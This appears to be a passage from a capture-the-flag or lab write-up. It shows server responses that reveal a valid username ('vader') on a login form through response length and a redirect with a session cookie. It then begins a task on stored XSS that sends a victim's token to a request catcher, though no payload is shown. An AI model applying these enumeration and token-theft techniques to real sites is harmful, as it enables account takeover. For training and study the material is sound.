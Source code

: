 ```
        </form>
    </div
</html>
```

These are usernames that don't fit.

Response with 2750, shortened:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Date: Tue, 14 Oct 2025 20:33:04 GMT
Etag: W/"a08-1QYGGofEeKOIrHLmqhHvv69U9tk"
X-Powered-By: Express
Content-Length: 2568
<!-- views/pages/index.ejs -->
in</button>
            </div>
            <div>
                    <p>Wrong password.<p>
            </div>
        </form>
    </div>
</main>
</html>
```

And last but not least, Response with 337 shortened:

```
HTTP/2 302 Found
Content-Type: text/html; charset=utf-8
Date: Tue, 14 Oct 2025 20:33:10 GMT
Location: /
Set-Cookie: connect.sid=s%3ABGMP4_8BRXzSPETSMyV2kxmFMMyG_umN.2wMUkfByqVO4oOhkTZ61GTDSgbJqYeo7BpodUfFqrYw; Path=/; HttpOnly
Vary: Accept
X-Powered-By: Express
Content-Length: 46

<p>Found. Redirecting to <a href="/">/</a></p>
```

Here we see that vader is the right user.

## Solution

_vader_ is the right user.

# 3 GlockenEmil 2.0 - XSS

We need to exploit a _stored XSS vulnerability_ in the Rate product functionality. A token should be send to the attacker when a victim watches the product. We use a request catcher, to get the stored credentials.
